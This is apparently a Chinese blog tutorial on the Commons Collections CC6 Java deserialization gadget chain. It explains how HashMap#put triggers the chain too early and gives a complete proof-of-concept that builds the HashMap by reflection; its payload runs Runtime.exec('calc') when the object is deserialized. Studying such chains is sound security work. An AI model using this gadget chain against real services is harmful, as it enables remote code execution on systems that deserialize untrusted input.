







在构造CC6利用链时，由于使用`HashMap#put`来放入`TiedMapEntry`对象，导致提早触发`hashCode`，牵动整条利用链（直接自己打自己了）
由于触发了一次调用链，`LazyMap`的`map`中多出了一个`key`，后面生成的payload就打不了了。即下面的`map.containsKey(key)`判断为`true`，进不到`factory.transform(key)`

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```
一个解决方法就是sink处改成无害的操作，`put`之后用`LazyMap#remove`将前面的键值对移除，再用反射把sink修改回去。

但有时候不好直接移除键，或者sink不好修改。这时候可以考虑用反射来构造HashMap。
~~学过数据结构的都知道~~，哈希表可以由数组+链表实现，数组每个元素存储链表头，如果有多个键值索引到同一个地方，只用把他们都放到那个位置的链表里就行了。出现哈希冲突时，只需把对应位置的链表整个扫一遍，对其中的每个数据比较其键值与查询的键值是否一致。大概长下面的样子



HashMap的底层实现就是哈希表，对应属性`Node<K,V>[] table`，是一个Node数组，Node实际上就是一个链表节点，`next`指向下一个节点。每个节点都是一个键值对。



接下来我们来看一下`HashMap#put`都做了什么
```java
HashMap<Object, Object> map = new HashMap<Object, Object>();
map.put("k1", "v1");
```



对`key`进行了哈希



`put`就是这里触发了`key.hashCode`
接着进到`putVal`



若`table`为null或长度为0就重新初始化`table`大小，这里可以看到`table`的起始大小为16。
接着长度-1和键的哈希值进行与操作，作为键值对的存放位置。
`table`的这个位置若是空的，新建一个Node放进入（`newNode()`）
这是不发生哈希冲突的情况。
若产生了哈希冲突，则遍历链表，若找到key相等的节点，则更新该节点的值，否则在链表尾部插入新节点。



插入新节点后，会对`modCount`和`size`进行加一操作。



👍很符合哈希表的工作方式。
由上面的过程可以看出put操作本质就是对`table`的操作，下面用反射来模拟这一过程，修改CC6的构造。

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "x");
        Map expMap = makeMap(tiedMapEntry, "xxx");

        System.out.println("No calculator Pop :)");
        Thread.sleep(5000);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }

    public static Map makeMap(Object key, Object value) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 设置size为1
        setFieldValue(map, "size", 1);

        // 构造Node
        Class<?> nodeClazz = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeClazz.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClazz);
        nodeCons.setAccessible(true);
        Object node = nodeCons.newInstance(0, key, value, null);

        // 构造tables
        Object tbl = Array.newInstance(nodeClazz, 1);
        Array.set(tbl, 0, node);
        setFieldValue(map, "table", tbl);

        return map;
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```


